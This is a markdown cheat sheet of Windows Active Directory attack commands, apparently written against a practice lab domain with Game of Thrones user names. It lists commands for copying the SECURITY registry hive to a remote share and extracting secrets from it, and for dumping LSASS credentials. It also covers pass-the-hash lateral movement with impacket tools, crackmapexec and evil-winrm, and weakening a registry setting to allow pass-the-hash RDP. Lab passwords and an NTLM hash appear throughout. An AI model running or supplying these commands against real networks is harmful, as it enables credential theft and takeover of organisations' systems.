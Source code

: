 ```
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.1\share'

secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
```

## LSASS
```
lsassy -d north.sevenkingdoms.local -u jeor.mormont -p _L0ngCl@w_ 192.168.56.22 -m dumpertdll -O dumpertdll_path=/workspace/Outflank-Dumpert-DLL.dll

ticketConverter.py kirbi_ticket.kirbi ccache_ticket.ccache
export KRB5CCNAME=ccache_ticket.ccache
wmiexec.py -k -no-pass north.sevenkingdoms.local/jeor.mormont
```

## Lateral Move with impacket
```
psexec -hashes 'cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
wmiexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
smbexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
atexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
dcomexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

## Other method
```
cme smb 192.168.56.11 -H ':cba36eccfd9d949c73bc73715364aff5' -d 'north' -u 'catelyn.stark' -x whoami
evil-winrm -i 192.168.56.11 -u catelyn.stark -H 'cba36eccfd9d949c73bc73715364aff5'

# Allow to RDP without password
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' 
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
xfreerdp /u:catelyn.stark /d:north.sevenkingdoms.local /pth:cba36eccfd9d949c73bc73715364aff5 /v:192.168.56.11

#Delete the reg for RDP
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'

#TGT
getTGT.py -hashes ':cba36eccfd9d949c73bc73715364aff5' north.sevenkingdoms.local/catelyn.stark
export KRB5CCNAME=/workspace/tgt/catelyn.stark.ccache
wmiexec.py -k -no-pass north.sevenkingdoms.local/catelyn.stark@winterfell

#Can also use the tickets dumped with lsassy using impacket ticketConverter
ticketConverter.py kirbi_ticket.kirbi ccache_ticket.ccache
```
